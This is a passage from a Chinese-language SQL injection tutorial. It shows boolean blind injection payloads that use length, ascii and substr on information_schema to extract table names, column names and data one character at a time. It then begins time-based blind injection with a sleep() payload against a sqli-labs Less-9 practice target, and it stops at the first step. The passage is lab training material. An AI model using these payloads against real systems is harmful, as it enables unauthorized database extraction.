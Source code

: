 ##### （4）猜解每个表的表名

获得表的个数之后，从第一个表开始，先猜解单个表名字符串的长度，再猜解每个表名的每一个组成字符。然后按同样的方法，使用limit语句，依次猜解出每一个表的表名。

```sql
and  length((select table_name from information_schema.tables where table_schema='数据库名' limit 0,1)))<=20 -- 
```

##### （5）猜解数据库下表中有多少个字段

```sql
and  ascii(substr((select table_name from information_schema.tables where table_schema='数据库名' limit 0,1),1,1)<=120) -- 
```

##### （6）判断数据库下表中的第一个字段的长度

```sql
and  length((select column_name from information_schema.columns where table_schema='数据库名称' and table_name='表名' limit 0,1))=2 -- 
```

##### （7）查询数据库下表里面的第一个字段的第一是多少

```sql
and  (ascii(substr((select column_name from information_schema.columns where table_schema='数据库名' and table_name='表名' limit 0,1),1,1)))=105 -- 
```

##### （8）得到字段探测第一条数据

```sql
and (ascii(substr((select 字段名 from 表名 limit 0,1),1,1)))=68 -- 
```

### 2.时间盲注

**时间盲注**：web页面只返回一个正常页面，修改闭合符，页面也没有变化。利用页面响应时间不同，逐个猜解数据。前提是数据库会执行命令代码，只是不反馈页面信息。

```sql
#页面响应有延迟，可以判断出闭合符就是‘
http://192.168.37.148/sql/Less-9/?id=1' and sleep(3) -- 
```

<img src="C:/Users/86184/AppData/Roaming/Typora/typora-user-images/image-20220801004247964.png" alt="image-20220801004247964" style="zoom:50%;" />

#### 关键函数

`sleep()`：参数为休眠时长，以秒为单位，可以为小数

`if(condition,true,false)`：condition为条件，true是当条件为真时返回的值，false是当条件为假时返回的值。

#### 时间盲注步骤：

靶场练习：less-9

#### （1）判断是否存在时间盲注的条件
